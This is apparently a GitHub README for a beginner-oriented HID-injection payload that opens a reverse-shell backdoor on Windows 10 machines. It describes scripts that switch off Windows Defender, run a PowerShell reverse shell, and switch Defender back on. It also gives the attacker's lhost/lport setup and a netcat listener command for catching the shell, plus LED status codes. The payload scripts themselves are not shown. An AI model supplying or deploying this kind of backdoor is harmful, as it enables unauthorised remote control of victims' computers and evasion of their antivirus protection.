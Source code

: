 # Simple Backdoor for beginners
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script
  
## Description
* opens a backdoor that you can access with Netcat
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender

## Configuration
* You just need to change lhost and lport
* lhost = your IP adress
* lport = the port you want to use for the Backdoor. I recommend ssh (22).

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
* rhost = IP adress from the target
* rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Double       | activate defender Stage                |
| Green               | Finished                               |
